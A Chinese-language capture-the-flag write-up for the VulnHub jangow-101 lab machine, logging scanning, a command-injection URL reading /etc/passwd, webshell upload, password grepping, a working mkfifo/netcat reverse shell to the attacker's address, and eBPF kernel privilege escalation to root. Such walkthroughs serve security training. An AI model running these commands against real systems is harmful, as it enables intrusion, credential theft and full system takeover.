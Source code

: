 ```yaml
---
title: jangow‑101 CTF笔记
date: 2025‑04‑21 12:09:04 +08:00
tags: [vulnhub, CTF练习, jangow‑101]
---
```


## 靶机信息

- **目标类型**：基础练习  
- **目标名称**：jangow‑101  
- **获取方式**：从 <https://www.vulnhub.com> 下载

---

## 过程

> 下面按时间顺序记录每一步的 **手段（Method）**、**发现（Finding）** 与 **结论 / 推测（Note）**。

### Step 1 — 端口扫描
- **Method**：`nmap` 扫描
- **Finding**：开放 `80/tcp`、`21/tcp`
- **Note**：存在 HTTP 与 FTP 服务

### Step 2 — FTP 匿名登录测试
- **Method**：尝试匿名访问 `ftp`
- **Finding**：服务为 *vsFTPd 3.0.3*，未开放匿名
- **Note**：公开漏洞仅少量拒绝服务类

### Step 3 — FTP 爆破预研
- **Method**：Hydra + SecLists 用户名/密码字典
- **Finding**：可能耗时数千小时
- **Note**：放弃暴力破解

### Step 4 — 浏览器访问 80 端口
- **Method**：直接访问
- **Finding**：存在 Web 站点

### Step 5 — Nikto 扫描
- **Method**：Nikto
- **Finding**：服务器允许目录索引

### Step 6 — 目录枚举
- **Method**：DirBuster
- **Finding**：可访问 `/site/js/`；框架为 Bootstrap 5

### Step 7 — OWASP ZAP 扫描
- **Method**：ZAP
- **Finding**：RCE 漏洞  
  例如：  
  `http://192.168.56.118/site/busque.php?buscar=cat+/etc/passwd`

### Step 8 — 尝试写文件 / 改密码
- **Method**：利用 RCE 写文件、修改密码
- **Finding**：上传文件失败；发现隐藏目录 `/site/wordpress`
- **Note**：疑似陷阱，无真实 WordPress

### Step 9 — 当前用户判定
- **Method**：`whoami`
- **Finding**：运行用户 `www-data`

### Step 10 — 枚举主目录
- **Method**：列 `/home`
- **Finding**：`/home/jangow01/user.txt` 含 MD5 `d41d8cd98f00b204e9800998ecf8427e`（空串）
- **Note**：无用信息

### Step 11 — 确定站点路径
- **Method**：`pwd`
- **Finding**：`/var/www/html/site`
- **Note**：`wordpress/config.php` 内容为空

### Step 12 — 向 `/tmp` 写文件
- **Method**：RCE 上传
- **Finding**：成功

### Step 13 — 自写交互式 Shell
- **Method**：Python 脚本模拟交互
- **Finding**：可顺利上传文件至 `/tmp` 与站点目录

### Step 14 — 反向代理 / 反弹 Shell 尝试
- **Method**：多种脚本（PHP/Python/Bash）
- **Finding**：全部失败

### Step 15 — 端口与进程
- **Method**：`netstat -tuln`
- **Finding**：22 端口开放但不可 SSH

### Step 16 — 大文件上传策略
- **Method**：逐字上传脚本 + WebShell
- **Finding**：成功放置 PHP webshell

### Step 17 — 提权枚举
- **Method**：`linux-exploit-suggester`
- **Finding**：列出多条可用漏洞

### Step 18 — 持久会话研究
- **Method**：Python/Bash 监听本地端口
- **Finding**：失败

### Step 19 — Netcat 测试
- **Method**：`nc`
- **Finding**：成功执行常规命令

### Step 20 — Telnet 可用性
- **Method**：检查软件与权限
- **Finding**：`www-data` 可运行 `telnet` 与 `nc`

### Step 21 — 捕获错误输出
- **Method**：`script -q -c "cmd" /dev/null`
- **Finding**：可记录错误输出

### Step 22 — 全盘搜索凭据
- **Method**：
  ```bash
  grep -ir "password" /etc/* 2>/dev/null
  grep -ir "password" /var/www/* 2>/dev/null
  ```
- **Finding**：发现 MySQL 密码

### Step 23 — 可写目录检查
- **Method**：
  ```bash
  find / -type d -writable -exec ls -ld {} \; 2>/dev/null
  ```
- **Finding**：权限严格，未获价值信息

### Step 24 — 出网端口遍历
- **Method**：自写脚本
- **Finding**：443 端口可用

### Step 25 — 反弹 Shell（失败示例）
- **Method**：`nc -e /bin/bash … 443`
- **Finding**：`-e` 被禁用

### Step 26 — 反弹 Shell（Bash 失败）
- **Method**：`bash -i >& /dev/tcp/…/443 0>&1`
- **Finding**：无权限

### Step 27 — 反弹 Shell（mkfifo 成功）
- **Method**：
  ```bash
  rm /tmp/f; mkfifo /tmp/f
  cat /tmp/f | /bin/sh -i 2>&1 | nc 192.168.56.1 443 > /tmp/f
  ```
- **Finding**：成功建立会话

### Step 28 — 本地提权
- **Method**：利用 `CVE-2017-16995`（eBPF 提权）
- **Finding**：成功获取 **root** shell  
  参考：<https://ricklarabee.blogspot.com/2018/07/ebpf-and-analysis-of-get-rekt-linux.html>

---

## 最终结果

- 获得 **root** 权限
- 成功读取 `flag.png`

![Flag](images/jangow-101/flag.png)
